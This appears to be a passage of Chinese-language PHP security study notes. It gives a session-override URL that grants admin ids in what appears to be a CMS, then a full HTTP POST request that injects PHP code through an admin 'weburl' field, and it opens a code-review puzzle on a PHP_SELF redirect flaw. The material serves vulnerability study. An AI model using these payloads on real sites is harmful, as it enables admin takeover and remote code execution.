 **重点注意这里git项目上的覆盖session有问题，可以使用这个payload**

```
member/share.php?_SESSION[duomi_group_id]=1&_SESSION[duomi_admin_id]=1
```

- payload



```POST /admin/admin_ping.php?action=set HTTP/1.1
Host: www.test.com:8888
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

weburl=";phpinfo();//&token=
```


- 测试

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200513220531.png)

## $_SERVER['PHP_SELF']导致的防御失效问题

### Sleigh Ride

- code 

```php
class Redirect {
  private $websiteHost = 'www.example.com';

  private function setHeaders($url) {
    $url = urldecode($url);
    header("Location: $url");
  }

  public function startRedirect($params) {
    $parts = explode('/', $_SERVER['PHP_SELF']);
    $baseFile = end($parts);
    $url = sprintf(
      "%s?%s",
      $baseFile,
      http_build_query($params)
    );
    $this->setHeaders($url);
  }
}

if ($_GET['redirect']) {
  (new Redirect())->startRedirect($_GET['params']);
}
```
